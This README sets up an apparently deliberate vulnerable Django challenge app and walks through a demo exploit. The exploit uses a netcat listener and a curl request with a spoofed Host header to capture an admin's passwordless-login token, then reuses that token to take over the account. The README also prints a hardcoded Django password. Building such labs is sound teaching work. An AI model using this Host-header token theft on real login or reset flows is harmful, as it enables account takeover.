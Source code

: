 # Install

## External requirements

- a working mail server, and a correct django configuration
- for dev, it's an sqlite database, django support other backend
- Flag is configurable on settings.py
- Special group is configurable on settings.py

## Build

```
docker compose build
docker compose up -d
```

## Init

```
docker compose exec python ./manage.py migrate
docker compose exec python ./manage.py createsuperuser
```

Login to admin
- Create a special group, the name should be the one configured in settings.py
- Create at least one user and add it in the group
- Optionaly create a few user (normal, and staff) (locahost:8001/admin), add first_name, last_name and email

Then logout from the admin. (This is important, if not, you will be loggin on the wepapp as superadmin)

PASSWORD DJANGO
RGdadGGUQmuoCfGUX^ktU&voyuHhsy3!

## Demo Exploit

Launch a nc listner
```
nc -l -p 8082
```
Get a victim on the user directory page (http://localhost:8001/userdir)
Ask for a no pass login token, with and evil host and the victim mail
```
curl -H "Host: localhost:8002" http://localhost:8001/nopasslogin\?email\=special1@email.host
```

Wait for the admin to click on the no login link, and get the token, you will receive some data on the netcat shell, for exemple:
```
GET /nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ== HTTP/1.1
Host: localhost:8002
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) QtWebEngine/5.15.8 Chrome/87.0.4280.144 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
DNT: 1
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: search_parameters=%7B%22addresses%22%3A%22on%22%2C%22subnets%22%3A%22on%22%2C%22vlans%22%3A%22on%22%2C%22vrf%22%3A%22off%22%2C%22pstn%22%3A%22off%22%2C%22circuits%22%3A%22on%22%2C%22customers%22%3A%22off%22%7D; expandfolders=0; sstr=%7C18486%7C; csrftoken=sJzEIZxD90nlUl1a8CzCLVWwdZPru2qn
```

Now, you can use the auth param, with the correct host to login as the admin user, go to:
`http://localhost:8001/nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ==`

# Note

Any user in the special group will automaticly click on the link, you should ensure that the django code can reach the controlled target (in a docker, the localhost:8002 will not work)

For now, as a poc (/TODO):
- login and logout views are not handled correctly, login is accessible when you're already logged in for exemple
- dev deps are installed in the docker image
